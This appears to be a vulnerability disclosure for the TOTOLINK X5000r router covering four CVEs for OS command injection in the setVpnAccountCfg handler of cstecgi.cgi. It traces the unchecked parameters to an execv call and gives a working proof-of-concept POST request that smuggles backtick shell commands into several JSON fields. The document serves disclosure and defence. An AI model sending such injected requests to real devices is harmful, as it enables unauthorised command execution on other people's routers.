 # totolink X5000r
## CVEIDs

The CVEIDs of these vulnerabilities and the corresponding vulnerable parameters are as follows.

CVE-2024-57016，vulnerable parameter：`user`

CVE-2024-57017，vulnerable parameter：`pass`

CVE-2024-57018，vulnerable parameter：`desc`

CVE-2024-57019，vulnerable parameter：`limit`

## Firmware version

totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setVpnAccountCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setVpnAccountCfg` (at 0x414734), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `user`, `pass`, `limit`, `desc`) are passed to the `Uci_Set_Str` function without any check.

![](setVpnAccountCfg.png)

The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 225
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/account.html?timestamp=1733739239593

{"type":"3","user":"123`ls>/tmp/1`","pass":"123`ls>/tmp/2`","limit":"1`ls>/tmp/3`","desc":"123`ls>/tmp/4`","addEffect":"1","ipaddr":"","subnet":[{"ipaddr":"","mask":""}],"accessLimit":"0","topicurl":"setVpnAccountCfg","token":"022874401695c70dc41bee226599ed69"}
```
